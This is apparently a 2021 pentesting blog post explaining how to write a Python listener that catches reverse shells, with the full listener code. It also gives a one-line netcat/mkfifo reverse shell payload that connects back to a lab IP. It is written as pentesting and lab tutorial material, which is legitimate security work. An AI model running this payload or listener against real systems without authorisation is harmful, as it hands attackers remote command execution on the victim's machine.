 ```yaml
---
layout: post
title:  "Creating a Basic Python Reverse Shell Listener"
date:   2021-10-16 17:00:10 +0200
tags: ["Pentesting Tips & Tricks","OSWE"]
popularity: 1000
---
```


# Introduction
This week I wanted to create a listener in python which functioned like the command `nc -lp [port]`, which is commonly used to catch reverse shells. At first, I thought it would be a piece of cake and would simply be something like reading the user input for a command, sending the command and retrieving the output of the command. However, it turned out to be a bit more complicated than I thought. As such, I decided to share the solution in a post.

The reason why it could be nice to be able to catch reverse shells using code rather than the netcat command (`nc`) is that it can facilitate automation. For example, if an exploit requries multiple listeners, the user of the exploit won't need to manually start the listeners. For instance, the script could be used in a more complex script which starts a listener that catches a reverse shell for a regular user, starts another listener, performs a set of privesc commands and then catches a root shell.

To debug the script, I used the reverse shell payload below. I would run this reverse shell payload on another host and catch it with either netcat or a python script while capturing the network traffic in Wireshark. This enabled me to study the differences between the communication resulting from both listeners and deduce what went wrong when something didn't work.

{% highlight bash linenos %}
mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9999 >/tmp/f
{% endhighlight %}

# Challenges
There were two main challenges which I encountered while writing the code. The first was the problem of reading the input data of the user without displaying it twice in the terminal. This is a problem since the reverse shell payload presented earlier, and most other reverse shell payloads, echo the input of the user back to the user. Among other things, I searched for input functions which could receive input from the terminal and remove the input from the terminal once the user pressed enter to submit it.  

Unfortunately, there did not appear to be many options for input functions which differed from the classical `input()` function in this sense. When the `input()` function is used, it outputs the user input to the terminal together with a newline character. This means that the user input will appear twice since it is also echoed back from the reverse shell payload. As will be seen in the next section, this can be solved with ANSI escape codes.

The second challenge I encountered was that some commands needed some time to finish executing. For this, I didn't find a great solution and after a while I decided to simply introduce an artifical delay of 1 second before retreiving the output of the command. As such, commands taking more than the time limit to finish executing, would risk not having their output returned to the user. While this artrificial delay could impact the user experience, it is unlikely to be a problem when performing automated exploitation since the artificial delay could be increased to render the risk of missing output negligible.

# Writing the Code
The first step in writing the code is to import the required modules, as shown at the first line in the code block below. The "socket" module is required to be able to listen to for connections on a port, accept connections and send traffic over a connection. The `sys` module is used to write output to the terminal without newline characters since the `print()` function automatically appends a newline character to any data it outputs to the terminal. Finally, the `time` module is simply used for the artifical time delays. After importing the modules, we define the 'listen' function and call it with an ip and a port. This function is where all of the listeners code will be placed. Note that the ip must be an IP corresponding to your computer while the port can have an arbitrary value as long as this value corresponds to a port which is not in use by another program.

{% highlight python linenos %}
import socket, sys, time

def listen(ip,port):
    pass

listen("10.10.14.25",9999)
{% endhighlight %}

Next, we add the code below, which listens for a connection over TCP and accepts it. The first line defines a socket object with the parameters `socket.AF_INET` and `socket.SOCK_STREAM` which simply states that the socket will deal with IPv4 and TCP respectively. Then, on the second line, we bind the socket object to the port we want to listen on. Next, we use the `listen()` function to start listening on the provided port, passing `1` as a parameter to indicate that we only expect one connection. Thereafter, we wait for a connection at line 5, where we acquire the `conn` object which represents the connection and can be used to communicate with the connecting host.  
{% highlight python linenos %}
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((ip, port))
s.listen(1)
print("Listening on port " + str(port))
conn, addr = s.accept()
print('Connection received from ',addr)
{% endhighlight %}

Then, we add the three lines below to receive any initial characters from the reverse shell payload. This is usually the current user, hostname, current working directory and some special characters which function as delimiters. Once we have received this data, we output it to the terminal and ask the user for a command to execute using the `input()` function. Note that we need to use `decode()` function on the first line. This function is used to decode the bytes object obtained from `conn.recv(1024)`, into a string using the [UTF-8](https://en.wikipedia.org/wiki/UTF-8) character encoding.
{% highlight python linenos %}
ans = conn.recv(1024).decode()
sys.stdout.write(ans)
command = input()
{% endhighlight %}

The next step is to send the command to the other host, which can be achieved by the code snippet below. Here, we add a newline character to the command since the `input()` function returns the user input except for the newline character. Thereafter, we send the command on line 2 and wait for it to finish executing at line 3 by using the `time.sleep()` function to wait for one second before continuing. At this point, we should be able to wrap these two code snippets in a `while` loop and execute commands indefinitely. 
{% highlight python linenos %}
command += "\n"
conn.send(command.encode())
time.sleep(1)
{% endhighlight %}

This is, however, where things get slightly tricky. At this point, we encounter the first of the two challenges described earlier. Namely that the user input is also received from the compromised host's output and thus is outputted twice to the terminal, as can be seen in the picture below.
![pythonListenerWOCursorFix](/assets/2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener/pythonListenerWOCursorFix.png)

A solution to the problem is to use [ANSI escape codes](https://en.wikipedia.org/wiki/ANSI_escape_code) which can be used to move the terminal cursor. Since the terminal cursor points to the place in the terminal where characters are written when sent to STDOUT, we can use this to remove the user input. More specifically, the idea is to remove the user input once it has been submitted and wait for the output of the compromised host to fill it in again, together with the corresponding output. A way to perform this is to move to the beginning of the line where the user input was submitted and output all the characters until the location where the user input was previously submitted. This can be achieved by adding the line below after the previous code snippet. In this line, the `sys.stdout.write()` function is used to write an ANSI escape code to the terminal together with the original line without the user input.
{% highlight python linenos %}
sys.stdout.write("\033[A"+ans.split("\n")[-1])
{% endhighlight %}
The ANSI escape codes is `\033[A` which moves the cursor up one line. Then, the last line which was recevied is outputted. This moves the terminal cursor to the place where the user entered the command. Note that the last line is obtained by splitting on the newline character `\n` and selecting the last line in the resulting list by using the index `-1`. Finally, note that it is important for the user experience to place this line after the `time.sleep(1)` line rather than before, since placing it before means that the user input could be gone while we are waiting for the command output.

# Final Code
Putting everything together, we get the code below which can be downloaded [here](/assets/2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener/pythonListener.py). The only thing that has been added in this code is the `while` loop which simply ensures that the user can execute more than one command.

{% highlight python linenos %}
import socket, sys, time

def listen(ip,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("Listening on port " + str(port))
    conn, addr = s.accept()
    print('Connection received from ',addr)
    while True:
        #Receive data from the target and get user input
        ans = conn.recv(1024).decode()
        sys.stdout.write(ans)
        command = input()

        #Send command
        command += "\n"
        conn.send(command.encode())
        time.sleep(1)

        #Remove the output of the "input()" function
        sys.stdout.write("\033[A" + ans.split("\n")[-1])

listen("10.10.14.25",9999)
{% endhighlight %}

For a demo of the script in action, see the video below.

<video width="100%" controls="controls">
  <source src="/assets/2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener/pythonListenerDemo.mp4" type="video/mp4">
</video>

